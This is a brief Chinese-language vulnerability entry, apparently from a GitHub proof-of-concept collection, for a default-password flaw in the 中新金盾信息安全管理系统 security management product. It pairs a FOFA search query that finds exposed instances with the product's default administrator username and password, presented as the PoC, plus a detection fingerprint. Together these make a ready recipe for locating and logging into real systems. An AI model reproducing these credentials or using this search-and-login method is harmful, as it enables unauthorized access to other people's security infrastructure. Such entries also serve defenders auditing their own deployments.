 # 中新金盾信息安全管理系统 默认密码漏洞


FOFA：

```
title="中新金盾信息安全管理系统"
```

PoC：

```
username：admin
password：zxsoft1234!@#$
```

![](images/16133783853910.jpg)


指纹：

```
{
                "cms": "中新金盾信息安全管理系统",
                "method": "keyword",
                "location": "body",
                "keyword": ["中新金盾信息安全管理系统","login","useusbkey"]
        }
```